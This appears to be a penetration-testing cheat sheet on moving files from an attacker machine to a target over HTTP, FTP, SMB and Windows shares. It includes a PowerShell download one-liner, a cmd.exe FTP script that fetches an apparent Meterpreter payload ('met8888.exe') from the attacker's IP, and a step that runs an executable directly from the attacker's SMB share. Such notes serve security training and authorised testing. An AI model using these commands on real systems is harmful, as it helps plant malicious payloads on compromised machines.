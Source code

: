 # File Transfer

File can either be transferred by:

* Push file to target
* Have the target to pull file back

## HTTP

**On attacker machine**:

### Apache

copy file to `/var/www/html/`

Start Apache Server

> /etc/init.d/apache2 start

### Python

By running below, current directory will be accessible over HTTP

> python -m SimpleHTTPServer \[port no\]

**On target machine**:

> [http://your\_ip\_address:your\_port\_num/filename](http://your_ip_address:your_port_num/filename)

If you only have command line access in a Windows machine, use PowerShell's WebClient object:

> powershell -c "\(new-object System.Net.WebClient\).DownloadFile\('[http://your\_ip\_address:your\_port\_num/filename','C:\Users\dest\_path\file\_name](http://your_ip_address:your_port_num/filename','C:\\Users\\dest_path\\file_name)'\)"

or use cmd.exe to trigger IE

> cd Program Files\Internet Explorer start iexplore.exe \[[http://ip](http://ip) address/file\]

## FTP

### vsftpd/pytftpd

**On attacker machine**:

`vsftpd` or simply the `pytftpd` library

> apt-get install python-pyftpdlib
>
> python -m pyftpdlib -p \[port\_num\]

default port is 2121

`-w` can grant the user write access

### Metasploit

Metasploit has an ftp module `auxiliary/server/ftp`

> use auxiliary/server/ftp
>
> set FTPROOT /root/shells
>
> exploit

Can be kill with:

> jobs -k \[id\]

**On target machine**:

Type it into your cmd.exe

> echo open your\_ip\_address&gt;ftp\_commands.txt  
> echo anonymous&gt;&gt;ftp\_commands.txt  
> echo whatever&gt;&gt;ftp\_commands.txt  
> echo binary&gt;&gt;ftp\_commands.txt  
> echo get met8888.exe&gt;&gt;ftp\_commands.txt  
> echo bye&gt;&gt;ftp\_commands.txt  
> ftp -s:ftp\_commands.txt

## SMB

**On attacker machine**:

> `smbserver.py shareName sharePath` `(e.g. smbserver.py TMP /tmp)`

Check with smbclient

> `smbclient -L [your ip address] --no-pass`

**On target machine**: 

> `net view \\\\[attack machine ip address]`

Copy file `copy \\[your ip address]\Sharepath .`

Or execute the file directly from SMB `\\[your ip address]\file.exe`


### Windows to Windows

Create a new local file share

`NET SHARE work=C:\docs\work /REMARK:"work share" /CACHE:No`

Delete the share
`NET SHARE work /DELETE`

List the File/Printer shares on a remote computer:
`NET VIEW \\ComputerName`

List all the shares in the domain:
`NET VIEW /DOMAIN`

Join a file share (Drive MAP)
`NET USE [driveletter:] \\ComputerName\ShareName`
(replace [driveletter:] with the drive letter you want to assign).





